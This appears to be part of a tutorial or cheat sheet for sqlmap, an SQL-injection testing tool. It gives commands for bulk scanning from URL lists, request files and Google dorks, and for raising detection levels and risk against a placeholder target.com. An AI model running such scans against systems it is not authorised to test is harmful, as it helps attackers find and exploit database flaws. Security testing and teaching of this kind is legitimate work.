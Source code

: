 ### Multiple Targets
```bash
# URL from file
sqlmap -m urls.txt

# Bulk scanning from Burp/ZAP request
sqlmap -r request.txt

# Load Google dorks
sqlmap -g dork.txt
```

### Request Files
```bash
# Use Burp Suite request file
sqlmap -r request.txt

# Use custom request file
cat > request.txt << EOF
POST /login HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded

username=admin&password=test
EOF

sqlmap -r request.txt
```

## Detection and Testing

### Basic Detection
```bash
# Automatic detection
sqlmap -u "http://target.com/page.php?id=1"

# Test all parameters
sqlmap -u "http://target.com/page.php?id=1&name=test" --level=3

# Risk level testing
sqlmap -u "http://target.com/page.php?id=1" --risk=3
```

### Testing Levels
```bash
# Level 1: Default (GET and POST parameters)
sqlmap -u "http://target.com/page.php?id=1" --level=1

# Level 2: Adds HTTP Cookie headers
sqlmap -u "http://target.com/page.php?id=1" --level=2

# Level 3: Adds HTTP User-Agent/Referer headers
sqlmap -u "http://target.com/page.php?id=1" --level=3

# Level 5: Adds HTTP Host header
sqlmap -u "http://target.com/page.php?id=1" --level=5
```
